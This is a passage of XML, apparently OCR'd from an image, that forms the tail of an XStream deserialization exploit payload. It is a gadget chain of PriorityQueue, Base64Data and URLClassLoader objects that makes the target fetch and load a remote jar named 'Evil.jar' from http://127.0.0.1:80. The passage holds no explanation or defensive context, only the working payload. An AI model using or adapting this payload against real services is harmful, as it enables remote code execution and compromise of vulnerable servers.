 ```
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
